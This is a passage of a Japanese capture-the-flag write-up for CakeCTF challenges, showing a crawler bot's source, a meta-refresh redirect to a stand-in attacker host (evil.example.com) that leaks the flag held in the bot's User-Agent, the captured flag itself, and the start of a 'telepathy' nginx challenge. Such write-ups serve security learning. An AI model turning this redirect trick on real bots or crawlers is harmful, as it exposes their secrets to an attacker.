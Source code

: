 `crawler.js`:
```javascript
const crawl = async (post_url) => {
    if (!post_url.match(/\/post\/[0-9a-f]{32}\/[0-9a-f]{32}$/)) {
        return;
    }
    const url = base_url + post_url;

    const browser = await puppeteer.launch(browser_option);
    try {
        const page = await browser.newPage();
        page.setUserAgent(flag); // [!] steal this flag
        await page.goto(url, {timeout: 3000});
        await wait(3000);
        await page.close();
    } catch(e) { }

    await browser.close();
}
```

とりあえずbotのソースコードを見ると、フラグがUser-Agentに入っていることがわかりました。
適当な攻撃サイトにアクセスさせることができればフラグが手に入りそうです。

というわけで
```html
<meta http-equiv="refresh" content="1;url=http://evil.example.com" />
```
リダイレクトさせます。

### フラグ

```
CakeCTF{CSP_1s_n0t_4_s1lv3r_bull3t!_bang!_bang!}
```
first blood:birthday:でした。
この問題はfirst bloodがprize対象だったので、ﾔｯﾀｰ!

javascriptスキームとmetaタグリダイレクトは便利な小手先テクニックなので毎回チェックしてます。

## [misc] telepathy

173 pts, 29 solves

問題文:
> HTTP is no longer required. It's time to use telepathy to communicate more securely and quickly. Here is my PoC: http://misc.cakectf.com:18100

### 解法

`default.conf`:
```nginx
    location / {
        # I'm getting the flag with telepathy...
        proxy_pass  http://app:8000/;

        # I will send the flag to you by HyperTextTelePathy, instead of HTTP
        header_filter_by_lua_block { ngx.header.content_length = nil; }
        body_filter_by_lua_block { ngx.arg[1] = ngx.re.gsub(ngx.arg[1], "\\w*\\{.*\\}", "I'm sending the flag to you by telepathy... Got it?\n"); }
    }
```


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md